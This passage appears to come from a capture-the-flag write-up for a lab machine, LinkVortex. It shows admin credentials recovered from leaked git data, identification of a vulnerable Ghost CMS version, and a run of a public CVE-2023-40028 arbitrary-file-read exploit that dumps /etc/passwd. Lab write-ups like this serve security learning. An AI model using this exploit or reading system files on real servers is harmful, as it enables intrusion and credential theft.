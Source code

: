 ```jsx                                                                                                   
┌──(venv)─(kali㉿kali)-[~]
└─$ cd /home/kali/linkvortex.htb/.git/logs
                                                                                                                                                                                       
┌──(venv)─(kali㉿kali)-[~/linkvortex.htb/.git/logs]
└─$ cat HEAD                              
0000000000000000000000000000000000000000 299cdb4387763f850887275a716153e84793077d root <dev@linkvortex.htb> 1730322603 +0000    clone: from https://github.com/TryGhost/Ghost.git
```
We have credentials:  

```
admin@linkvortex.htb::OctopiFociPilfer45
```

Login URL: [http://linkvortex.htb/ghost/#/signin](http://linkvortex.htb/ghost/#/signin)  

Once logged in, under the settings, we found the version of Ghost CMS running, which is vulnerable.

```jsx
Version: 5.58.0
Environment: production
Database: mysql8
Mail: SMTP
```

We found an exploit here:  

[Exploit GitHub](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028/blob/master/CVE-2023-40028)  

Now, we run the exploit as shown below, and we are able to read files.

```jsx
┌──(venv)─(kali㉿kali)-[~/tool_pentest]
└─$ ./exploit.sh  -u admin@linkvortex.htb -p OctopiFociPilfer45 -h http://linkvortex.htb/                        
WELCOME TO THE CVE-2023-40028 SHELL
Enter the file path to read (or type 'exit' to quit): /etc/passwd
File content:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin

```
We are particularly interested in the endpoint mentioned in `Dockerfile.ghost`.
